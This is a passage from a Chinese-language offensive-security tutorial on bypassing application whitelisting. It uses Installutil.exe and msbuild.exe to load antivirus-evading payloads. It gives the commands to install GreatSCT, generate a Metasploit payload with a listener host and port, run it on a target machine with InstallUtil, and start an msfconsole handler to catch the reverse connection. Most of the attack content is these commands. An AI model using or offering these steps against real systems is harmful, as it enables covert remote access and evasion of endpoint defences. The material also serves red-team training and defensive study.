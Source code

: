 ```
msbuild.exe Micropoor.xml
```

**2.2 白名单 Installutil.exe**

Installer 工具是一个命令行实用程序，允许您通过执行指定程序集中的安装程序组件来安装和卸载服务器资源。此工具与 System.Configuration.Install 命名空间中的类一起使用。

第一步找到 Installutil.exe

默认情况下 Installutil.exe 是没有在系统环境变量中，所以需要我们先找到，默认情况下 Installutil.exe 是在./net 环境下，但是因为各个系统安装的. net 版本不同，所以只能到 C:\Windows\Microsoft.NET \ 下执行查找文件命令：

```
dir /S Installutil.exe
```

**第二步安装 GreatSCT 工具**

GreatSCT 可以基于 Metasploit、自定义 shellcode、powershell 等生成 payload，然后可利用多种白名单程序进行加载，从而达到免杀的目的。

支持的白名单文件有：

1、Installutil.exe

2、Msbuild.exe

3、Mshta.exe

4、Regasm.exe

5、Regsvcs.exe

6、Regsvr32.exe

安装：

```
git clone https://github.com/GreatSCT/GreatSCT.git
cd GreatSCT/setup
sudo ./setup.sh -c
python3 GreatSCT.py
```

![](https://mmbiz.qpic.cn/mmbiz_png/96Koibz2dODuYXE02HyqmCMnwKAvEZ1aLBszGOYGz8icQkrUKh9icRn0pBlgTEc5buDMwfL4T42FDvjB7duTOamfg/640?wx_fmt=png)

首先输入 use 1 然后输入 list，然后输入 use 什么 payload 然后设置 lhost，lport，然后 generate，然后输入文件名，然后可以看到执行次攻击的命令

![](https://mmbiz.qpic.cn/mmbiz_png/96Koibz2dODuYXE02HyqmCMnwKAvEZ1aLyiavaHAOTZEfbARqHD5wsY8MTvbFcySHS5O9hiafEKbYov61r9cCIY1g/640?wx_fmt=png)

```
#把文件拷贝到目标机器上，然后执行
InstallUtil.exe /logfile= /LogToConsole=false Gamma.exe
```

命令行输入开始监听：

```
msfconsole -r /usr/share/greatsct-output/handlers/Gamma.rc
```
